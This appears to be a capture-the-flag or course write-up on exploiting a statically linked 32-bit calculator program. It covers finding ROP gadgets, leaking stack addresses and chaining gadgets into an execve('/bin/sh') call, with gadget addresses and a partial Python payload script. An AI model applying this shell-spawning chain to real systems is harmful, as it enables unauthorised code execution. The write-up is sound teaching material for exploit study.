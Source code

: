 Also, `objdump -R` will print the dynamic relocation entries of the program.

```text
calc.exe:     file format elf32-i386

objdump: calc.exe: not a dynamic object
objdump: calc.exe: Invalid operation
```

### Return Oriented Programming

The program is compiled with static option, which means the possibility of
finding useful ROP gadgets are higher. The objective is to make a ROP chain
which calls `execve("/bin/sh")`.

## Exploitation

Using ROPgadget to find ROP gadget:

```bash
./ROPgadget.py --binary ~/secprog/calc.exe
```

Because the "/bin/sh" string resides in stack, `ebx` needs to be the address
of the string, which is in stack. ASLR is enabled, so it is needed to poke for
the actual stack address. The text listed below is an example, real
exploitation should calculate the location of the string dynamically.

```text
leak 0xffffd63c's value, modified to 0x080550d0 :  xor eax, eax ; ret
leak 0xffffd640's value, modified to 0x080701d1 :  pop ecx ; pop ebx ; ret
leak 0xffffd644's value, modified to 0x00000000 -> for pop ecx
leak 0xffffd648's value, modified to 0xffffd6ec -> for pop ebx
leak 0xffffd64c's value, modified to 0x080908d0 :  mov eax, 7 ; ret
lead 0xffffd650's value, modified to 0x0807cb7f :  inc eax ; ret
lead 0xffffd654's value, modified to 0x0807cb7f :  inc eax ; ret
lead 0xffffd658's value, modified to 0x0807cb7f :  inc eax ; ret
lead 0xffffd65c's value, modified to 0x0807cb7f :  inc eax ; ret
leak 0xffffd660's value, modified to 0x08049a21 :  int 0x80
leak 0xffffd6ec's value, modified to 0x6e69622f -> "/bin"
leak 0xffffd6f0's value, modified to 0x0068732f -> "/sh'\0'"
```

The return address is at `esp+0x5ac` (`ebp+0x4`). Its value should be
modified to the address of the first ROP gadget. Then the ROP chain starts to
work! The exploitation works like this:

1. Poke `ebp+0x10` for the address of the string "/bin/sh".
1. Set `eax` and `ecx` to 0.
1. Make `ebx` to be the value of `ebp+0x10`.
1. Accumulate `eax` to 11
1. Interrupt
1. Put the string "/bin/sh" in the address which has already stored in `ebx`

```python
addrs = ['+361', '+362', '+363', '+364',
         '+365', '+366', '+367', '+368',
         '+369', '+370', '+405', '+406']

payloads = [0x080550d0, 0x080701d1, 0x00000000, 0x00000000,
            0x080908d0, 0x0807cb7f, 0x0807cb7f, 0x0807cb7f,
            0x0807cb7f, 0x08049a21, 0x6e69622f, 0x0068732f]

def pokestack(s):
    s.send('+364\n')
    binsh = int(s.recv(1024))
    payloads[3] = binsh         # dynamically update addr of /bin/sh

```

[1]: https://github.com/JonathanSalwan/ROPgadget